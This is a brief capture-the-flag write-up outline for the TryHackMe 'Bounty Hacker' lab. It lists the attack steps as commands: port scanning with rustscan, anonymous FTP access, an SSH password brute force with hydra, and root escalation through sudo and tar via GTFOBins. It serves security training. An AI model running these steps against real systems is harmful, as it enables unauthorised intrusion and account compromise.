 ```yaml
---
date: 2024-06-19
authors:
  - mrashco
title: Bounty Hacker
tags: 
categories: 
series:
---
```


Writeup: [YouTube](https://youtu.be/RIiRB_tqfVk) // Blog

---

rustscan -a $ip -p $ports -- -sC -sV

ftp -A $ip [^](https://tryhackme.com/forum/thread/61d36f77eb3bbf056a906e3f)

hydra -l $user -P l****.txt $ip ssh

sudo -l, tar [^](https://gtfobins.github.io/gtfobins/tar/)